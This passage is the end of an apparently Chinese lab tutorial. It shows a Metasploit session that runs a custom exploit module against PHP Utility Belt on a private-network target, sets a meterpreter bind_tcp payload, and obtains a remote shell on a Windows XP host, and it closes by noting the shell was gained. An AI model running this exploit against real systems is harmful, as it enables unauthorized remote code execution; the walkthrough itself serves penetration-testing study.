 ```
msf > use exploit/web/php/php_utility_belt_attack_by_binghe 
msf exploit(web/php/php_utility_belt_attack_by_binghe) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
msf exploit(web/php/php_utility_belt_attack_by_binghe) > set RHOST 192.168.109.141
RHOST => 192.168.109.141
msf exploit(web/php/php_utility_belt_attack_by_binghe) > show options

Module options (exploit/web/php/php_utility_belt_attack_by_binghe):

   Name       Current Setting             Required  Description
   ----       ---------------             --------  -----------
   CHECKURI   /php-utility-belt/info.php  no        Checking Perpose
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.109.141             yes       The target address
   RPORT      80                          yes       The target port (TCP)
   SSL        false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /php-utility-belt/ajax.php  yes       The path to PHP Utility Belt
   VHOST                                  no        HTTP server virtual host


Payload options (php/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  192.168.109.141  no        The target address


Exploit target:

   Id  Name
   --  ----
   0   PHP Utility Belt


msf exploit(web/php/php_utility_belt_attack_by_binghe) > exploit

[*] Started bind TCP handler against 192.168.109.141:4444
[*] Sending stage (38247 bytes) to 192.168.109.141

meterpreter > sysinfo
Computer    : LIUYAZHUANG
OS          : Windows NT LIUYAZHUANG 5.1 build 2600 (Windows XP Professional Service Pack 3) i586
Meterpreter : php/windows
meterpreter > 
```

到此，我们已经拿到了靶机的Shell，后续就可以进行各种渗透操作了。


## 写在最后
